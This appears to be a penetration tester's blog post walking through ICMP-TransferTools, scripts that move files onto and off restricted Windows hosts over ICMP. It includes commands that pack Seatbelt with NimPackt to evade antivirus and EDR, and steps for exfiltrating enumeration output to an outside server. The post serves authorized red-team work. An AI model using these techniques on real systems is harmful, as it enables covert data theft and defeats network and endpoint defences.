 ## Transferring Files over ICMP in Restricted Network Environments

### Background (Inspiration & WHY???)
Being able to transfer files to and from a system can sometimes make or break a penetration test. If we are unable to download the tools we need or exfiltrate useful data, the tests we can run are very limited. This happens most frequently when we are provided with a virtual desktop via something like Citrix, VMWare Horizon Client, or AWS Workspaces. These workstations are often locked down as much as possible to prevent us from being able to do much, particularly move data on and off the system.

Most recently, my team had a penetration test a couple of months ago where this was the case. We were given access to a virtual desktop via Citrix that had a very locked down network, allowing no outbound access via conventional protocols like HTTP, FTP, SSH, and even DNS. The only protocol that was allowed outbound access was ICMP, in which I discovered that there were few solutions online that allowed for transferring files over it. Many of the tools/solutions that did exist were not compatible with Windows, and the ones that were had many significant drawbacks, such as requiring compiled binaries to be dropped to the disk (how?) or only being able to transfer files off the system and not to it.

This is the scenario that led me to create [ICMP-TransferTools](https://github.com/icyguider/ICMP-TransferTools), a collection of scripts designed to move files to and from Windows hosts in restricted network environments. This is accomplished using a total of 4 different files, consisting of a python server and PowerShell client for each transfer direction (Download & Upload). This guide will cover how to use these scripts so that we will hopefully never get stuck again during penetration tests where the network is locked down and ICMP is available.

---
### Part 1: How does it work?

As stated above, [ICMP-TransferTools](https://github.com/icyguider/ICMP-TransferTools) contains two scripts for each transfer direction: one script that will send the desired file and another that will receive it. The script that is responsible for sending the desired file will first split the file into blocks of 1000 bytes each, and then send those blocks to the receiving script one at a time over ICMP. The receiving script will take the blocks as they come and save them to an output file. See below for how this process works in action as seen by Wireshark.

![alt text](https://i.imgur.com/6C9RvZu.png)

---
### Part 2: Transferring Files to a Windows Host via ICMP

[ICMP-TransferTools](https://github.com/icyguider/ICMP-TransferTools) includes two scripts that enable the transfer of a remote file onto a Windows host in a restricted network environment. The first is ICMP-SendFile.py, which is the script that hosts the file and sends it to the client. This script is designed to run on a public facing Linux server as root. The other is Invoke-IcmpDownload.ps1, which is the client that will reach out to the Linux server and download the file to the Windows host over ICMP.

Now you may be wondering, “How do we get the client script onto the Windows host if we are unable to transfer files without it?”. This is a great question and something I had to consider when writing these scripts. The answer is simple, we will just type it out in notepad or PowerShell ISE and then save it to the disk. This isn’t ideal, however there aren’t really any other options. I have optimized the script to be as small as possible (35 lines of code), so it really shouldn’t take more than 10 minutes to type it out. This will be the only script we have to type out like this, as we can use it to download anything that we’d need going forward, including the other PowerShell client used to exfiltrate files off the system.

![alt text](https://i.imgur.com/X3Q0mMZ.png)

Once we have our PowerShell script on the Windows host, we need to start the Python script on our Linux server to stage the file we want to download. See below for the script’s usage:

```
usage: ICMP-SendFile.py [-h] [-v] [-b 1000] source destination file

ICYGUIDER'S ICMP FILE DOWNLOAD SERVER

positional arguments:
  source                Public IP address of current host
  destination           Public IP address of destination host
  file                  File to transfer over ICMP

optional arguments:
  -h, --help            show this help message and exit
  -v, --verbose         Verbosely print progress
  -b 1000, --block-size 1000
                        Size of each block (Default: 1000)
```

As you might notice, one of the required arguments is the public IP address of the destination host. Given that we will be using this script in a restricted network environment, we can’t simply go to a website to retrieve our public facing IP as we would normally. Since we only have outbound access via ICMP, we can send some pings to our Linux server in order to view the public IP of our Windows host. This can be done by using tcpdump like so:

Run on Linux server:
```
tcpdump icmp
```

Then ping the Linux server from the Windows client:
```
ping -n 1 ServerIPAddress
```

![alt txt](https://i.imgur.com/xHvmEOL.png)

Now that we have our Windows host’s public IP address, all we need to do is pick what file we want to send over to it. For this demo I’ll be using Seatbelt, as it has many useful features for enumerating a Windows host. We can’t simply use it as is however, as a real-world environment would definitely have some sort of Antivirus or EDR in place that would block and delete our file as soon as it is downloaded. To mitigate this while staying within the realm of open-source tooling, I will be packing Seatbelt using Cas van Cooten’s newly released Nim packer [NimPackt](https://github.com/chvancooten/NimPackt-v1). Big shout out to him for this awesome project!
```
python3 NimPackt.py -e execute-assembly -i bins/Seatbelt.exe -o Seatbelt -S -v --nosyscalls
```

![alt txt](https://i.imgur.com/seq1MAN.png)

We can then upload the packed Seatbelt file to our Linux server and place it in the same directory where our ICMP-TransferTool scripts live. We are now ready to run the ICMP-SendFile.py script, giving it our server’s IP, the Windows host’s public IP, and our packed exe file:
```
./ICMP-SendFile.py ServerIPAddress ClientIPAddress Seatbelt.exe
```

![alt txt](https://i.imgur.com/Swbrrjg.png)

As seen in the screenshot above, the python file will give us the exact command we need to run once we’ve imported our PowerShell client script. The usage for the PowerShell client is as follows:
```
Invoke-IcmpDownload PublicIPAddressOfServer FileToDownload
```

Once we run the PowerShell client, we can see that it will connect to our python server and begin the download process. After a few seconds/minutes (depending on the file size), we will see the script complete, and our file will have been successfully downloaded to the Windows host over ICMP.

![alt txt](https://i.imgur.com/tbSPibw.png)

*NOTE: The ICMP-SendFile.py script has an optional argument (-b) that allows the user to specify how much data is sent in each individual ICMP request. It is advised to leave this at its default value as it really shouldn’t need to be changed in most situations. If for some reason you are noticing that your client has trouble downloading files, try specifying a lower number to this parameter as your client may be limiting the size of ICMP packet that you can send. The default size of ping data is 32 bytes, so it may be best to start with that if you are having issues.

---
### Part 3: Transferring Files from a Windows Host via ICMP

Now that we can download files and run our tools, we might want to exfiltrate the output of our tools or other sensitive data back to our Linux server for further use. This can be accomplished with ICMP-TransferTools’s included ICMP-ReceiveFile.py and Invoke-IcmpUpload.ps1 scripts. Like the previous two scripts we used to download files, the python server needs to be executed first on our Linux server as root to listen for ICMP requests. The PowerShell script can then be loaded on the Windows host and executed to upload the desired file to the Linux server.

Since we already have a way to download files to our Windows host over ICMP, we can simply download our new PowerShell client the same way we did with Seatbelt.

![alt txt](https://i.imgur.com/AzbiwP7.png)

With our PowerShell client that can upload via ICMP now on our Windows host, we will use Seatbelt to generate a report that we will upload to our Linux server for our demo.
```
.\Seatbelt.exe -group=remote -outputfile="out.txt"
```

![alt txt](https://i.imgur.com/9UiFpE8.png)

We now have to start the ICMP-ReceiveFile.py script on our Linux sever so that it is ready to accept requests from our client. Its usage can be found below:
```
usage: ICMP-ReceiveFile.py [-h] src file

ICYGUIDER'S ICMP FILE UPLOAD SERVER

positional arguments:
  src         Public IP Address of client
  file        File to write data to

optional arguments:
  -h, --help  show this help message and exit
```

You will notice that we again need to provide the public IP address of our Windows host. This is needed to prevent the python script from accepting pings requests coming from hosts other than our client. We will now execute the python script like so:
```
./ICMP-ReceiveFile.py ClientIPAddress out.txt
```

![alt txt](https://i.imgur.com/uSmLnss.png)

With the python script now listening for requests, we can load and execute our PowerShell client on the Windows host. The usage for this script is as follows:
```
Invoke-IcmpUpload PublicIPAddressOfServer FileToUpload
```

After running the PowerShell client, we can see that it connects to our python server and begins the upload process. After a few seconds/minutes (depending on the file size), we will see the script complete, and our file will have been successfully uploaded to our Linux server over ICMP.

![alt txt](https://i.imgur.com/9D723aO.png)

---

### Part 4: The End!


I hope you all enjoyed this blog post. Please feel free to reach out to me if you have any questions. Also, while I’ve tried to make these scripts as reliable as possible and think I’ve been relatively successful in doing so, you still might occasionally receive some unexpected behavior. Such is life when using ICMP as a data transfer protocol (lol). If you have any ideas of how these scripts can be improved, I’d be more than grateful for any pull requests made to the GitHub project. Thanks so much!

Credits/Greetz:
* [Bernardo Damele](https://github.com/bdamele) for [icmpsh](https://github.com/bdamele/icmpsh)
* [Cas van Cooten](https://github.com/chvancooten) for [NimPackt](https://github.com/chvancooten/NimPackt-v1)
